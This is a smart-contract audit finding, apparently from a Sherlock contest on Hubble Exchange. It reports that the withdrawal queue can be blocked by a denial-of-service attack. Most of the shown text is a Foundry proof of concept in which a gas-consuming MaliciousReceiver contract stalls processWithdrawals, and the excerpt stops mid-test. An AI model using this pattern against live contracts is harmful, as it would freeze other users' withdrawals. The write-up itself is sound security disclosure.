 # Issue H-1: ProcessWithdrawals is still DOS-able 

Source: https://github.com/sherlock-audit/2023-04-hubble-exchange-judging/issues/116 

## Found by 
0x3e84fa45, 0x52, 0xDjango, 0xbepresent, carrotsmuggler, dirk\_y, kutugu, p12473, qbs, qckhp, rogue-lion-0619
## Summary

[DOS on process withdrawals](https://github.com/code-423n4/2022-02-hubble-findings/issues/119) were reported in the previous code4rena audit however the fix does not actually stop DOS, it only makes it more expensive. There is a much cheaper way to DOS the withdrawal queue - that is by specifying the `usr` to be a smart contract that consumes all the gas. 

## Vulnerability Detail

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.9;
import "./Utils.sol";

contract MaliciousReceiver {
    uint256 public gas;
    receive() payable external {
        gas = gasleft();
        for(uint256 i = 0; i < 150000; i++) {} // 140k iteration uses about 28m gas. 150k uses slightly over 30m.
    }
}

contract VUSDWithReceiveTest is Utils {
    event WithdrawalFailed(address indexed trader, uint amount, bytes data);

    function setUp() public {
        setupContracts();
    }

    function test_CannotProcessWithdrawals(uint128 amount) public {
        MaliciousReceiver r = new MaliciousReceiver();

        vm.assume(amount >= 5e6);
        // mint vusd for this contract
        mintVusd(address(this), amount);
        // alice and bob also mint vusd
        mintVusd(alice, amount);
        mintVusd(bob, amount);

        // withdraw husd
        husd.withdraw(amount);      // first withdraw in the array
        vm.prank(alice);
        husd.withdraw(amount);
        vm.prank(bob);              // Bob is the malicious user and he wants to withdraw the VUSD to his smart contract
        husd.withdrawTo(address(r), amount);

        assertEq(husd.withdrawalQLength(), 3);
        assertEq(husd.start(), 0);

        husd.processWithdrawals();  // This doesn't fail on foundry because foundry's gas limit is way higher than ethereum's. 

```